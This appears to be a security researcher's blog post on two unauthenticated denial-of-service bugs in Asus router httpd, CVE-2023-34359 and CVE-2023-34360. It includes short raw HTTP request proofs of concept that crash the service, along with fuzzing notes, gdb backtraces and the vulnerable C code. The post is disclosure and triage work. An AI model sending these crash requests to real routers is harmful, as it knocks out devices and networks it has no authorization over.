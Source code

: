 ```yaml
---
title: "Asus - Unauthenticated httpd DoS Conditions"
date: 2023-07-15T11:16:12Z
draft: true
tags: ["notes"]
---
```


Recently I came across a few exploitable DoS conditions in Asus `httpd` while doing some fuzzing. Although these aren't the most impactful bugs (the Asus watchdog process restarts `httpd` anytime it detects a crash) they can be exploited unauthenticated. 

Also, even though the watchdog restarts the service, it remains possible to just continue sending DoS requests, crashing it as soon as it restarts, lol.

### Unauthenticated DoS Conditions in Asus `httpd`

First up, CVE-2023-34359

#### CVE-2023-34359 PoC

```
GET / HTTP/1.0
Host: 192.168.1.180:80
Content-Length: 1

0
```

Yup, that's all. I found this a while back and never dug in, all I knew is that a request body sent to `httpd` that begain with an integer would crash the web service, but I wasn't sure if this could be something more, so I sat on it for a bit until I had some time to triage it.

Using the Asus Merling-ng firmware, I set up an instance to perform some user emulation of the `httpd` bin and fuzzed using AFL with grammar mutators to see if I could generate any unique crashes. AFL of course generated some wild results, and plenty of crashes-- none of which were particularly "unique".

#### Core Dumps

Looking at the many core dumps generated by manually invoking the crash and those found by AFL we see a few minor differences, but they all ended up craashing in the same `do_json_decode` function:

##### Crash 1 - Manual

```
# gdb-multiarch -q usr/sbin/httpd qemu_httpd_20230101-134349_1803037.core
Reading symbols from usr/sbin/httpd...
[...]
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x000444b4 in do_json_decode ()
(gdb) bt
#0  0x000444b4 in do_json_decode ()
#1  0x0001b390 in do_ej (path=<optimized out>, stream=0x0) at ej.c:309
#2  0x00019c5c in handle_request ()
#3  0x00016ef8 in main ()
```

##### Crash 2+ - AFL 

```
# gdb-multiarch -q usr/sbin/httpd qemu_httpd_20230101-134448_1803079.core
Reading symbols from usr/sbin/httpd...
[...]
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x000444b4 in do_json_decode ()
(gdb) bt
#0  0x000444b4 in do_json_decode ()
#1  0x00047714 in do_get_ig_config_cgi ()
#2  0x00019c5c in handle_request ()
#3  0x00016ef8 in main ()
```

#### We must go deeper

That's interesting, but not enough to tell what's going on. Recompiling the merlin `httpd` with debugging symbols (-g) yields us some more info on a crash.

*../src/router/httpd/Makefile:342*
```
httpd: $(OBJS)
        @echo " [httpd] CC $@"
        $(CC) -g -o $@ $(OBJS) $(LIBS) $(EXTRALDFLAGS)
```

And the new core dump:
```
# gdb-multiarch -q usr/sbin/httpd qemu_httpd_20230101-143447_1811053.core
Reading symbols from usr/sbin/httpd...
[...]
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x000444b4 in do_json_decode ()
(gdb) bt full
#0  0x000444b4 in do_json_decode ()
No symbol table info available.
#1  0x0001b390 in do_ej (path=<optimized out>, stream=0x0) at ej.c:309
        pat_buf = '\000' <repeats 484 times>...
        pattern = 0xfffec7cc ""
        asp = 0x0
        asp_end = 0x0
        key = 0x0
        key_end = 0x0
        start_pat = <optimized out>
        end_pat = <optimized out>
        lang = 0x1098a0 "EN"
        fp = 0x108150
        ret = <optimized out>
        read_len = <optimized out>
        len = <optimized out>
        no_translate = 1
        kw = {len = 0, tlen = 0, idx = 0x0, buf = 0x0}
        current_lang = <optimized out>
        root = 0x1099d8
#2  0x00019c5c in handle_request ()
No symbol table info available.
#3  0x00016ef8 in main ()
No symbol table info available.
```

Still pretty hard to tell, but it probably has to do with `pat_buf = '\000' <repeats 484 times>...` or `pattern = 0xfffec7cc ""` pointing to empty values.

But, after some fiddling I realized that the full debug symbols weren't displaying. With some coercion (Adding `CFLAGS += -g` lel), we end up with the following core dump backtrace:

```
# gdb-multiarch -q usr/sbin/httpd qemu_httpd_20230104-203755_3086479.core
Reading symbols from usr/sbin/httpd...
[New LWP 3086479]
[...]
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x00043fa4 in do_json_decode (root=0x1049d8) at web.c:11576
11576                   json_object_object_foreach(tmp_obj, key, val){
(gdb) bt full
#0  0x00043fa4 in do_json_decode (root=0x1049d8) at web.c:11576
        entrykey = <optimized out>
        entry_nextkey = <optimized out>
        key = 0x0
        val = 0x0
        name_tmp = '\000' <repeats 49 times>
        tmp_obj = 0x104e58
        copy_json = 0x0
#1  0x0001af94 in do_ej ()
No symbol table info available.
#2  0x000199f8 in handle_request ()
No symbol table info available.
#3  0x00016c84 in main ()
No symbol table info available.
```

The crash comes from `web.c:11576`
```
#0  0x00043fa4 in do_json_decode (root=0x1049d8) at web.c:11576
11576                   json_object_object_foreach(tmp_obj, key, val){
```

`do_json_decode` looks like this:
```
int do_json_decode(struct json_object *root)
{
	char name_tmp[50] = {0};
	struct json_object *tmp_obj = NULL;
	struct json_object *copy_json = NULL;

	decode_json_buffer(post_json_buf);

	if((tmp_obj = json_tokener_parse(post_json_buf)) != NULL){
		json_object_object_foreach(tmp_obj, key, val){
			memset(name_tmp, 0, sizeof(name_tmp));
			wl_nband_to_wlx(key, name_tmp, sizeof(name_tmp));
			copy_json = json_object_get(val);
			json_object_object_add(root, name_tmp, copy_json);
		}
		json_object_put(tmp_obj);
		return 1;
	}else
		return 0;
}
```

So, that makes sense... mostly. `json_object_object_foreach` bails as there's no key-value-pair. Now, why does it bork when sent `0=0`? idk, and I don't care. That's for another day, with a more interesting bug.

#### CVE-2023-34360 PoC

If you thought the first one was simple:

```
GET /login.cgi HTTP/1.1
Host: 192.168.1.2
User-Agent: asusrouter-Windows-DUTUtil-1.0.1.278
```

This one was really easy to triage.

```
$ ulimit -c unlimited
$ chroot . ./qemu-arm-static -E LD_PRELOAD=/firmadyne/libnvram.so /usr/sbin/httpd crash3
[...]
nvram_get_buf: = "admin"
nvram_get_int: p_Setting
sem_get: Key: 414b0002
sem_get: Key: 414b0002
nvram_get_int: Unable to read key: /firmadyne/libnvram/p_Setting!
Segmentation fault (core dumped)
$ gdb-multiarch usr/sbin/httpd qemu_httpd_20230105-215542_3503814.core
[...]
pwndbg> bt full
#0  0xfef6d6a4 in strlen () from /home/tester/amng-build/release/src-rt-5.02axhnd/targets/94908HND/fs/lib/libc.so.6
No symbol table info available.
#1  0x00034c40 in login_cgi (wp=0x103150, query=<optimized out>, path=<optimized out>, url=<optimized out>, arg=<optimized out>, webDir=<optimized out>, urlPrefix=<optimized out>) at web.c:19175
        authorization_t = <optimized out>
        authinfo = '\000' <repeats 499 times>
[...]
```

So, `login_cgi` is called and passed two important values:

`authorization_t` and `authinfo`

Now, does the request contain any authentication / authorization headers? No? What does `web.c` think about that?

*web.c:19169*
```
/* Is this the right user and password? */
if(nvram_match("http_username", authinfo) && compare_passwd_in_shadow(authinfo, authpass))
        auth_pass = 1;
if(!nvram_get_int("p_Setting")){
        if(strlen(authinfo) > 20)
                authinfo[20] = '\0';
        if(strlen(authpass) > 16)
                *(authpass+16) ='\0';
        if(nvram_match("http_username", authinfo) && compare_passwd_in_shadow(authinfo, authpass))
                auth_pass = 1;
}
```

It doesn't like that much at ALL. Classic null-dereference on 19175: `if(strlen(authpass) > 16)`-- and that makes sense why the first stack entry, `#0  0xfef6d6a4 in strlen ()` causes the crash. 

## Closing thoughts

Simple bugs with fun results and fun triaging :) 

More to come soon!